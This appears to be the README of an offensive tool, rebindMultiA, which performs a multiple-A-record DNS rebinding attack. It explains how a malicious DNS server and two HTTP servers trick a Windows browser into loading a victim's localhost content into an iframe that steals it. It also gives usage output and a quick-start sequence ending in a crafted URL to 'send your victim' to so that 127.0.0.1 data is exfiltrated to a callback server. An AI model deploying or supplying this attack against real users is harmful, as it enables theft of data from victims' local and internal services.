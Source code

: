 ## rebindMultiA
`rebindMultiA` is a tool to perform a Multiple A Record rebind attack. 

`rebindmultia.com` is a domain that I've set up to assist with these attacks. It makes every IP its own authoritative nameserver for the domain `[IP].ns.rebindmultia.com`. For example, `13.33.33.37.ns.rebindmultia.com`'s authoritative nameserver is `13.33.33.37.ip.rebindmultia.com` which resolves (as you might have guessed) to `13.33.33.37`. 

## Multiple A Record Rebind Attack
A Multiple A Record is a variant of a DNS Rebinding attack that weaponizes an attacker's ability to respond with two IP address in response to a DNS request and the browser's tendency to fallback to the second IP in the DNS response when the first one doesn't respond. In this attack, the attacker will configure a malicious DNS server and two malicious HTTP servers. The DNS server will respond with two A records:
```
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 13.33.33.37
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 127.0.0.1
```
The victim browser will then connect to the first IP and begin interacting with the attacker's first malicious HTTP server. This server will respond with a page that contains two iframes, one to `/steal` and one to `/rebind`. The `/steal` iframe will load up a malicious page to reach into the second iframe and grab the content. The `/rebind` endpoint, when hit, will issue a 302 redirect to `/` and kill the first malicious HTTP server. As a result, when the browser reaches back out to the attacker's HTTP server, it will be met with a closed port. **As such, it will fallback to the second IP**. Once the target content has been loaded in the second iframe, the first iframe can reach into it, steal the data, and exfiltrate it to the attacker's second malicious HTTP server - the callback server.

**This attack only works in a Windows environment.** Linux and Mac will default to the private IP first and the attacker's server will never be queried. 

## Graphic + Explaination
![Screenshot](rebindMultiA.jpg)
1. The browser resolves the host `127.0.0.1.target.13.33.33.37.ns.rebindmultia.com`.
2. The DNS server (included in `server.py`) parses the requested dns name and returns two A records: `13.33.33.37` and `127.0.0.1`.
3. The victim's browser reaches out the attacker's malicious HTTP server (included in `server.py`) and loads the `/parent` page which has two iframes.
4. The victim's browser loads `/steal` from the attacker's malicious HTTP server.
5. The victim's browser loads `/rebind` which results in a 302 redirect to `/` (the HTTP server will exit after this request).
6. The victim's browser redirect's to `/` per the `302` from the attacker's server.
7. The victim's browser attempts to load `/` from the attacker's (now dead) HTTP server, but fails to do so. 
8. The browser then shifts to the **second** IP in the DNS cache and resolves the hostname to `127.0.0.1`. It then reaches out to that server and loads up the page in the iframe.
9. The attacker's `steal` iframe reaches into the newly loaded second iframe and grabs the content.
10. The attacker's `steal` iframe then sends the results back to the attacker's callback server.

## Usage
```
pip3 install -r requirements.txt
python3 server.py --help
```
```
usage: server.py [-h] [-p PORT] [-c CALLBACK_PORT] [-d DNS_PORT] [-f FILE] [-l LOCATION]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Specify port to attack on targetIp. Default: 80
  -c CALLBACK_PORT, --callback-port CALLBACK_PORT
                        Specify the callback HTTP server port. Default: 31337
  -d DNS_PORT, --dns-port DNS_PORT
                        Specify the DNS server port. Default: 53
  -f FILE, --file FILE  Specify the HTML file to display in the first iframe.(The "steal" iframe). Default: steal.html
  -l LOCATION, --location LOCATION
                        Specify the location of the data you'd like to steal on the target. Default: /
```

If you get this error:
```
┬─[justin@RhynoDroplet:~/p/rebindMultiA]─[14:26:24]─[G:master=]
╰─>$ python3 server.py

Traceback (most recent call last):
  File "server.py", line 2, in <module>
    from http.server import HTTPServer, BaseHTTPRequestHandler, ThreadingHTTPServer
ImportError: cannot import name 'ThreadingHTTPServer'
```
Then you need to use a more up-to-date version of Python. Python 3.7+. 

## Quick Start
This must be executed from publically accessible IP.
```
git clone https://github.com/Rhynorater/rebindMultiA
cd rebindMutliA
pip3 install -r requirements
echo "Send your victim to http://127.0.0.1.target.`curl -s http:/ipinfo.io/ip`.ns.rebindmultia.com/parent to exfil 127.0.0.1
sudo python3 server
```
